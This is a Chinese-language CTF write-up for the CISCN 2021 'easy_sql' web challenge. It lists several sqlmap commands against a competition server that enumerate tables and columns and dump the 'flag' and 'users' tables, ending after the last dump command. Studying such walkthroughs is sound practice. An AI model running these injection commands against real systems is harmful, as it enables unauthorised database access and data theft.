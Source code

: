 ```yaml
---
title: ciscn 2021 web WP
date: 2021-05-31 10:04:23
tags:  CTF,比赛
category: CTF
---
```



## easy_sql

**考点：无列名和报错注入**

1. 爆表名：

```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  -D security -common-tables
```

![image-20210515132807394](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143910.png)

![image-20210515132817070](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143912.png)



2. 爆列名，发现只有自增id列，说明还有列名没有显示，==这时候就应该想到无列名注入了==
```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  -D security -T flag --columns --hex
```

![image-20210515135616512](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143913.png)



```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  -D security -T flag -C "id" --dump --hex
```

![image-20210515135759698](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143914.png)



3. 另一个表啥也没有

```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  -D security -T users --columns --hex
```

![image-20210515140045222](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202312102143915.png)



```
sqlmap -u http://124.71.238.95:25075/ --data="uname=&passwd=&Submit=%E7%99%BB%E5%BD%95"  -D security -T users -C "id,username" --dump --hex
```
